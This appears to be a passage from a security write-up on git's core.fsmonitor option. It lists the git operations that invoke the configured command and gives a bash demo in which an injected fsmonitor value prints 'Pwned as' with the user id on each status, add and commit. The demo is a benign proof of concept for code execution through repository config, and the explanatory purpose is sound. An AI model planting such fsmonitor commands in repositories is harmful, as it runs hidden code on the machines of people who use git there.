 #### core.fsmonitor

The [core.fsmonitor](https://git-scm.com/docs/git-config#Documentation/git-config.txt-corefsmonitor) option is used as a command which will identify all files that may have changed since the requested date/time.

In other words, many operations provided by the git will invoke the command given by `core.fsmonitor` to quickly limit the operation's scope to known-changed files in the interest of performance.

At least the following git operations invoke the command given by `core.fsmonitor`:

- `git status` used to show information about the state of the working tree, including whether any files have uncommitted changes
- `git add <pathspec>` used to stage changes for committing to the repo
- `git rm --cached <file>` used to unstage changes
- `git commit` used to commit staged changes
- `git checkout <pathspec>` used to check out a file, commit, tag, branch, etc.

For operations that take a filename, `core.fsmonitor` will fire even if the filename provided does not exist.

```bash
$ cd $(mktemp -d)
# initialized empty Git repository in /tmp/tmp.hLncfRcxgC/.git/
$ git init
# change core.fsmonitor so that it echoes a message to STDERR whenever it is invoked
$ echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">&2; false"' >> .git/config
$ cat .git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">&2; false"
# git-status
$ git status
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)
On branch main

No commits yet

nothing to commit (create/copy files and use "git add" to track)

# git-add
$ touch aaaa
$ git add aaaa
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)

$ git add zzzz
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)
fatal: pathspec 'zzzz' did not match any files

# git-commit
$ git commit -m 'add aaaa'
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)
[main (root-commit) 7c2f2c6] add aaaa
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 aaaa
```
